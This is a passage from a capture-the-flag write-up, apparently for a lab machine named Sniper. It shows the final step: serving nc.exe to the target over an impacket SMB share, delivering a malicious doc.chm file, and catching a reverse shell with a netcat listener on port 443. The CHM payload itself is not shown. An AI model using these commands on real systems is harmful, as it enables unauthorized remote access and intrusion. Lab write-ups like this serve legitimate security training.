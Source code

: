 The last thing I need to do is to transfer `nc.exe` to the path of the victim machine defined in the **malicious payload**, in my first attempt I will upload `nc.exe` to the **Desktop** folder of **chris** and if problems arise I will try other paths. I also transfer the malicious **doc.chm** file from the **Windows virtual machine** I set up for this lab, first to my attacking machine, then I set up everything necessary to capture the incoming **Reverse Shell** with `nc` on port **443** of my machine and finally I transfer **doc.chm** to the target. After a short time of waiting I get the connection and I can access the content of the last flag, finally **pwned machine**.

> **Attacker Machine**:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support -username oldboy -password oldboy123
```
> **Victime Machine**:

```cmd
net use x: \\10.10.14.9\smbFolder /u:oldboy oldboy123
```

> **Attacker Machine**:

```bash
impacket-smbserver smbFold $(pwd) -smb2support -username oldboy -password oldboy123
```

> **Victime Machine**:

```cmd
net use x: \\10.10.14.9\smbFold /u:oldboy oldboy123
copy x:\nc.exe .\nc.exe
```

> **Virtual Machine**:

```cmd
python -m http.server 80
```

> **Attacker Machine**:

```bash
wget http://192.168.1.8/doc.chm

rlwrap -cAr nc -nlvp 443
```

> **Victime Machine**:

```cmd
cd C:\Docs
copy x:\doc.chm .\doc.chm
# :)

whoami
hostname
```

<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
